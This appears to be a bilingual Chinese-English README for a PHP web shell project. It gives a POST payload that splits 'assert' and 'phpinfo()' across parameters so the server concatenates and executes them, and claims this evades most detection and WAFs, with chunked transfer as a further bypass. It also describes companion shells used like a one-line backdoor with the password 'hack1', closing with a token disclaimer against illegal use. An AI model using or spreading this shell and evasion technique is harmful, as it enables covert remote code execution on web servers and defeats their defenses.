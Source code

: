  # shell
我发现了一种php-shell的新写法，它可以绕过大部分的检测，还可以用分块传输绕过waf

使用post发送如下参数

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()&hack5=pwd


hack1会和hack2拼接，hack3会和hack4拼接而形成assert(phpinfo())

I have discovered a new writing method for PHP shell that can bypass most of the detection and can also bypass WAF using block transfer

Send the following parameters using post

hack1=ass&hack2=ert&hack3=phpi&hack4=pwd

Hack1 will be spliced with Hack2, and Hack3 will be spliced with Hack4 to form an assert (phpinfo())
![1](https://user-images.githubusercontent.com/90552883/229515220-742c99b2-a06f-4f30-99b9-c57b3a1c373a.PNG)
![2](https://user-images.githubusercontent.com/90552883/229515223-ce3efc9e-e456-4421-81c6-1036808c2bbf.PNG)
![3](https://user-images.githubusercontent.com/90552883/229515226-11aaa83e-9ab8-4b24-b30b-cd996e23df69.PNG)
![4](https://user-images.githubusercontent.com/90552883/229517804-b1b83abb-d678-4b24-b2be-dd9bcddde2e4.PNG)

我还编写了通过拼接编码方式来绕过的ms.php(绕过效果比xz.php差) 可以向php一句话一样来使用它 密码（hack1)

欢迎各位提供绕过思路

请勿用于违法行为！！！！！！！！！！！！！！！

I also wrote ms.php that can be bypassed through concatenated encoding (the bypass effect is worse than xz.php), and I can use its password just like php does in a sentence (hack1)

Welcome to provide bypass ideas

Please do not use it for illegal activities!!!!!!!!!!!!!!!
